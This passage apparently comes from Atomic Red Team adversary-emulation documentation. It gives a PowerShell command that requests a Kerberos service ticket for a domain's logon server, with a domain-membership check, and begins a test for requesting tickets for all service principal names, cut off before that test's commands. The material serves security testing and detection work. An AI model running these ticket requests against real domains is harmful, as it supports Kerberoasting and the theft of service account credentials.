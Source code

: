**Supported Platforms:** Windows


**auto_generated_guid:** 988539bc-2ed7-4e62-aec6-7c5cf6680863






#### Attack Commands: Run with `powershell`! 


```powershell
Add-Type -AssemblyName System.IdentityModel
$ComputerFQDN=$env:LogonServer.trimStart('\') + "." + $env:UserDnsDomain
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/$ComputerFQDN"
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #5 - Request All Tickets via PowerShell
The following test will utilize native PowerShell Identity modules to query the domain to extract allthe Service Principal Names. This behavior is typically used during a kerberos or silver ticket attack. 
A successful execution will output the SPNs for the domain in question.

**Supported Platforms:** Windows


**auto_generated_guid:** 902f4ed2-1aba-4133-90f2-cff6d299d6da





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_name | The Domain Name to lookup against | string | %USERDNSDOMAIN%|


#### Attack Commands: Run with `powershell`! 
